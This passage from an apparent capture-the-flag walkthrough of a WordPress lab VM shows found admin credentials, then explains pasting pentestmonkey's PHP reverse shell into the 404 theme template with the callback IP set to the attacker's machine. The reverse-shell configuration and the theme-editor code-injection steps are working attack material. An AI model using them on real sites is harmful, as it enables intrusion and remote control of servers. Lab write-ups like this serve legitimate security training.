 We found a match

```
[i] Valid Combinations Found:
 | Username: Elliot, Password: ER28-0652
```

|Username|Password|
|---|---|
|Elliot|ER28-0652|

Let's try login with those credentials. http://10.0.2.5/wp-login

Success! And we are an admin wordpress user.

## Reverse Shell

Wordpress provides a useful interface to allow adminstrators to edit the them in real time via the wordpress interface - since wordpress themes are just PHP files
this essentially means arbitrary code execution.

Terrible practice all around but very convenient for us. We can use the arbitrary code execution to setup a reverse shell and get access to the underlying VM.

Tools:
 * [php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

[php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) is a useful script which lets us setup a reverse shell with minimal effort.

We'll make the code run by embedding it in the wordpress template for 404 pages. In the wordpress menu go to `Appearance` > `Editor` and select `404 Template (404.php)` from the list of templates on the right.

Copy and paste the [php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) script into the 404 Template, overwriting all of the existing content.

We need to change the lines at the top of the script ending with `// CHANGE THIS`

```php
set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```

Change to the IP address to the IP address of our own kali VM which you can find by running `ifconfig eth0` again.

Leave `$port` as is.
```php
$ip = '10.0.2.15';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
```
